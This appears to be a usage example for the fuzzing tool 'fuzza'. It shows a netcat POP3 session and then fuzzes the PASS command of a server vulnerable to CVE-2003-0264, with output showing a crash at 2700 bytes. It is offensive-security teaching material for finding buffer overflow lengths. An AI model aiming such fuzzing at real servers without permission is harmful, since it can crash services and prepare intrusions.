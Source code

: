 #### Overview

* [CVE-2003-0264](https://www.cvedetails.com/cve/CVE-2003-0264/) - buffer overflow in password.

To see how the raw communication works, have a look at the following netcat snippet:
```bash
$ nc mail.example.tld 110
+OK POP3 server mail.example.tld ready <00001.544405549@mail.example.tld>
USER test
+OK test welcome here
PASS LongPassword
-ERR unable to lock mailbox
QUIT
```

#### Find potential overflow length

In order to fuzz the password, all previous communication must have happened. By using `fuzza`,
this can be achieved with the `-i` argument to specify initial data to be send and received.
Additionally we also want to close the connection after sending the payload (if possible).
This can be achieved with the `-e` option which works exactly as `-i`.
```bash
$ fuzza -i ':.*OK POP3.*,USER test:.*test welcome.*' -p 'PASS ' -e ':.*,QUIT:' mail.example.tld 110

------------------------------------------------------------
A * 100
------------------------------------------------------------
Init Awaiting: .*OK POP3.*
Init Received: +OK POP3 server mail.example.tld ready <00005.544236132@mail.example.tld>
Init Sending:  USER test
Init Awaiting: test welcome
Init Received: +OK test welcome here
Sending "PASS " + "A"*100 + ""
Exit Awaiting: .*
Exit Received: -ERR unable to lock mailbox
Exit Sending:  QUIT
...

------------------------------------------------------------
A * 2700
------------------------------------------------------------
Init Awaiting: .*POP3.*
Init Received: +OK POP3 server mail.example.tld ready <00009.592913389@mail.example.tld>
Init Sending:  USER test
Init Awaiting: welcome here
Init Received: +OK test welcome here
Sending "PASS " + "A"*2700 + ""
Exit Awaiting: .*

Remote service (most likely) crashed at 2700 bytes of "A"
Payload sent:
PASS AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
